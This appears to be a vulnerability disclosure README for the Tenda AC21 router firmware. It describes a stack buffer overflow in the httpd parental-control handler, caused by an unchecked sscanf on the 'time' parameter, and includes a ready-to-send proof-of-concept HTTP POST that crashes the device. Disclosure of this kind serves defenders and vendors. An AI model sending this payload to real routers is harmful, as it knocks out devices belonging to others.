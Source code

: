 # Tenda AC21(V16.03.08.15) contains stack Buffer Overflow Vulnerability

## overview

- Manufacturer's website information：https://www.tenda.com.cn/
- Firmware download address: https://www.tenda.com.cn/download/detail-3419.html

## product information

Tenda A21(V16.03.08.15), latest version of simulation overview：

![image-20220902202242019](readme.assets/image-20220902202242019.png)

## description

### 1. Vulnerability Details

Tenda AC21(V16.03.08.15) contains a stack overflow vulnerability in file `/bin/httpd`, function`saveParentControlInfo ` .

This vulnerability allows attackers to cause a Denial of Service (DoS) via the `time` parameter.

In function `saveParentControlInfo`, it calls `compare_parentcontrol_time(a1)`, the vulnerability is in this function. 

![image-20220902202709225](readme.assets/image-20220902202709225.png)

It calls `sscanf(s, “%[^-]-%s”, v3, v4)` and `v4` is on the stack, so there is a buffer overflow vulnerability. 

![image-20220902202810293](readme.assets/image-20220902202810293.png)

### 2. Recurring loopholes and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /goform/saveParentControlInfo HTTP/1.1
Host: 192.168.0.1
Content-Length: 137
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/main.html
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adwfrcvb
Connection: close

time=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa%2daaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

By sending this poc, we can achieve the effect of a denial-of-service(DOS) attack .

![image-20220902202507664](readme.assets/image-20220902202507664.png)